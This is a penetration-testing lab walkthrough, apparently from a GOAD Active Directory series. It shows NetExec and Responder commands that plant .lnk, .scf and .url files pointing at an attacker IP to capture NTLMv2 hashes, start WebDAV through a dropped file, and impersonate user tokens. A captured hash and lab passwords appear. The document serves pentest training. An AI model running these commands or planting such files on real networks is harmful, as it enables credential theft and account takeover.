# GOAD Part 12 - Having Fun Inside a Domain

The different techniques presented here need an active user to exploit them. For this attack, we need to have a valid user in the domain.
We will have to simulate the victim by RDP connection manually.

# **Coerce me with files**

let’s start by enumerating CastelBlack server shares.

`netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares`



We can see above that we have **`Read`** and **`Write`** access in **`all`** share.

So we can try some attacks here. Let’s start with **`slinky : .lnk file`**

## **Slinky: .lnk file**

For this kind of attack, we will create a file with NetExec with module **slinky. **This module will create an ink file in every folders we do have **`Write`** permission on our target server.

1st - Let’s create and drop the file in a single command.
`netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares`

`netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip`



Above we can see that we enumerated the shares first then we created the**` .lnk `**file and added to all writable shares, in our case this file was added to **`all`** share.

After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.

`sudo responder -I vmnet2`



For this attack to work in this lab, we will login with a user, because we don’t have a valid bot.
Let’s use xfreerdp ro remote access to the machine.

`xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%`

After connecting, we need to go to the shares **`all`**.

**`\\castelblack.north.sevenkingdoms.local\\all`**



Once the user access the share we get the users hash through Responder.



```
catelyn.stark::NORTH:19d99c632a805889:0A6C8691396FE9B6A3AD3B5B3B378671:0101000000000000807C08D0D26CDA0113EF01224A1B3CFE000000000200080036005A005300590001001E00570049004E002D004200560032003900370035003100460036005700510004003400570049004E002D00420056003200390037003500310046003600570051002E0036005A00530059002E004C004F00430041004C000300140036005A00530059002E004C004F00430041004C000500140036005A00530059002E004C004F00430041004C0007000800807C08D0D26CDA010600040002000000080030003000000000000000010000000020000014D15C2C005F5BBD167168BE6315E609F4B52B5F2604A44EB5ECB51FFF2D5E5E0A001000000000000000000000000000000000000900220063006900660073002F003100390032002E003100360038002E00350036002E0031000000000000000000
```

> This coerce append automatically when the victim visit the share, no need to click! I let you imagine what append if you drop that kind of file on a common public share during your pentest.
Here the file start with a “.” so it will be hidden if you don’t activate show hidden file option. The coerce only append when the file is showed (in a pentest it’s recommended to not use a filename starting with “.”)

We can now get the NTLMv2 hash and try to crack it using John or hashcat.

In case we can not crack the hash(for password complexity) It is also possible to do a relay here using [ntlmrelayx.py](http://ntlmrelayx.py/) to not smb signed server and get share access or admin access depending on the relayed authentication target.

To keep the lab clean, let’s clean this .lnk file.

`netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true`

# **.scf : sucffy**

The previous attack can also be achieved using .scf. The proccess is exactly the same as the previous one.

# **.url file**

Now, this Coerce attack is by using .url files. Let’s start by creating a file called **`salaryFiles.url`** , it’s good to use creative names, even tho for this attack to work, the users doesn’t need to click/open the file, the user just need to access the folder were the file is.

```
[InternetShortcut]
URL=http://hr.company.com/pwned
WorkingDirectory=test
IconFile=\\10.4.10.1\%USERNAME%.icon
IconIndex=1
```

The next step it to upload this file to the share we do have Write permission, in our case it the share **`all`**. we can use smblient.py to upload the file.

`smbclient.py north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local`



After this, our next step is to launch Responder and listen on the network, in our case, we will use the interface on the network we are targeting.

`sudo responder -I vmnet2`

After uploading the file into the share all, we will access remotely to simulate a valid user.

`xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore /size:80%`

access the share below

**`\\castelblack.north.sevenkingdoms.local\\all`**



After the user access the share, we will get the user hash through Responder.



# **Webdav coerce - I need to get later back to finish it **

For this attack to work, **webdav** needs to be enabled on the host.


> Webclient is installed by default on windows workstations but in a stopped status. 
Webclient is not installed by default on windows server, **it has been added on goad build as a custom vulnerability**.

Let’s start by enumerating webdav using NetExec.
`netexec smb 10.4.10.10-23 -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M webdav`



As we can see above, webdav is not enabled on none of the servers in the network.

For the labbing purpose, we can enable webdav by remote accessing the host. Webdav is installed on essos.local Domain Controller (**braavos.essos.local**) but it’s not enabled

We can see that webdav is installed, but not enable it.

`xfreerdp /d:essos.local /u:khal.drogo /p:horse /v:braavos.essos.local /cert-ignore`



Now let’s continue… We can use Netexec for the next step or we can also create our file and upload it using smbclient.py. For this, i’ll use NetExec.
`netexec smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d 'north.sevenkingdoms.local' -M drop-sc`



Above it’s possible to see that, NetExec enumerated the shares we do have **`Write`** access, created the malicious file and uploaded it to the share we do have Write permission, which is the **`all`. **

Once the attacker access the share we were able to upload the malicious file, it will automatically enable WebDav.



> Just to be clear here we are connected as khal drogo on braavos. The malicious document is on castelblack. When khal visit the share all on castelblack containing our malicious document, the webclient service start on braavos (khal’s client machine)

If we enumerate the Webdav service again on the network, we will notice that webdav is enabled now on our network on host 10.4.10.23. 



Once we see the webclient started we can add a DNS entry to our responder ip with [dnstools](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)

# **Impersonate Users**

Another cool way to take other accounts is using token impersonation.
Let’s use NetExec for this attack, we need to to have a valid user in the domain.

`netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p '`*`L0ngCl@w`*`' -d north.sevenkingdoms.local -M impersonate`



As we can see above, we were able to launch this attack, and now we have a token ID of each of the users.
Now we just need to execute commands as a user, using the user token ID.

`netexec smb castelblack.north.sevenkingdoms.local -u 'jeor.mormont' -p '`*`L0ngCl@w`*`' -d north.sevenkingdoms.local -M impersonate -o TOKEN=6 EXEC=whoami`



We can see see above that we can execute any command impersonting any kind of user by choosing the Token ID.


---

*Back to [GOAD Overview](../README.md)*
